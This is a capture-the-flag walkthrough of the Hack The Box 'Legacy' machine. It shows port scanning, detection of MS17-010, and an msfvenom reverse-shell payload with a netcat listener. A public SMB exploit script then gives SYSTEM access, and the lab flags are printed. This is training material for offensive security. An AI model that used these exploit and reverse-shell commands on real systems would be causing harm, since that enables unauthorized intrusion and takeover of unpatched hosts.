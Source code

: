 # Legacy
## Reconnaissance

* Performed TCP scans using Masscan before extracting open ports for Nmap to conduct in-depth scans on services and OS. (Did not include UDP and other TCP scans)
```
sudo masscan -p1-65535 10.10.10.4 --rate=1000 -e tun0 > ports && ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//') && nmap -Pn -sV -sC -A -p$ports 10.10.10.4
```
* The results of the Masscan and Nmap show that port 139 and 445 are open. Target machine OS is Windows XP.

```
PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
Host script results:
|_clock-skew: mean: -3h52m55s, deviation: 1h24m50s, median: -4h52m55s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:89:0e (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-11-04T01:41:30+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

* Testing SMB vulnerability. Machine is vulnerable to MS17-010.
```
nmap --script smb-vuln-ms17-010 -p 139,445 10.10.10.4 -Pn
```
```
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx`
```
## Weaponization
* Used msfvenom to create a reverse shell executable

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 EXITFUNC=thread -f exe -a x86 -o reverse_shell.exe
```
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: reverse_shell.exe
```

## Delivery & Exploitation
* Set up netcat to listen on port 4444
```
nc -nvlp 4444
```
```
listening on [any] 4444 ...
```

* Download the send_and_execute.py script from [helviojunior](https://github.com/helviojunior/MS17-010)

```
python /home/kali/send_and_execute.py 10.10.10.4 reverse_shell.exe 
```

```
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8201d2b8
SESSION: 0xe1202c18
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1b11370
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1b11410
overwriting token UserAndGroups
Sending file 999947.exe...
Opening SVCManager on 10.10.10.4.....
Creating service CsKT.....
Starting service CsKT.....
The NETBIOS connection with the remote host timed out.
Removing service CsKT.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```
* If you encounter dependency issues with python SMB module, try the following:
```
pip install pysmb
```

* Reverse Shell obtained with Admin Privileges
```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.4] 1055
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>ipconfig /all
ipconfig /all

Windows IP Configuration

        Host Name . . . . . . . . . . . . : legacy
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : 
        Description . . . . . . . . . . . : AMD PCNET Family PCI Ethernet Adapter
        Physical Address. . . . . . . . . : 00-50-56-B9-89-0E
        Dhcp Enabled. . . . . . . . . . . : No
        IP Address. . . . . . . . . . . . : 10.10.10.4
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 10.10.10.2
        DNS Servers . . . . . . . . . . . : 10.10.10.2

C:\WINDOWS\system32>type C:\Docume~1\Administrator\Desktop\root.txt
type C:\Docume~1\Administrator\Desktop\root.txt
993442d258b0e0ec917cae9e695d5713
C:\WINDOWS\system32>type C:\Docume~1\John\Desktop\user.txt
type C:\Docume~1\John\Desktop\user.txt
e69af0e4f443de7e36876fda4ec7644f
```

* Unable to determine the exact user logged in.
```
C:\WINDOWS\system32>echo %Username%          
echo %Username%                                         
%Username%
```

* Used send_and_execute.py to send whoami.exe over to target machine. Confirmed that we are NT AUTHORITY\SYSTEM.
```
python /home/kali/send_and_execute.py 10.10.10.4 /usr/share/windows-resources/binaries/whoami.exe
```

```
 Directory of C:\

04/11/2020  02:25             73.802 999947.exe
03/11/2020  06:24             73.802 9VMU9B.exe
16/03/2017  07:30                  0 AUTOEXEC.BAT
04/11/2020  02:44             66.560 AWHELA.exe
16/03/2017  07:30                  0 CONFIG.SYS
16/03/2017  08:07     <DIR>          Documents and Settings
03/11/2020  06:44             73.802 FPQO1X.exe
03/11/2020  02:46             73.802 JGKOXR.exe
16/03/2017  07:33     <DIR>          Program Files
16/03/2017  07:33     <DIR>          WINDOWS
03/11/2020  02:37             73.802 XX1YFZ.exe
               8 File(s)        435.570 bytes
               3 Dir(s)   6.484.676.608 bytes free

C:\>AWHELA.exe
AWHELA.exe
NT AUTHORITY\SYSTEM
```


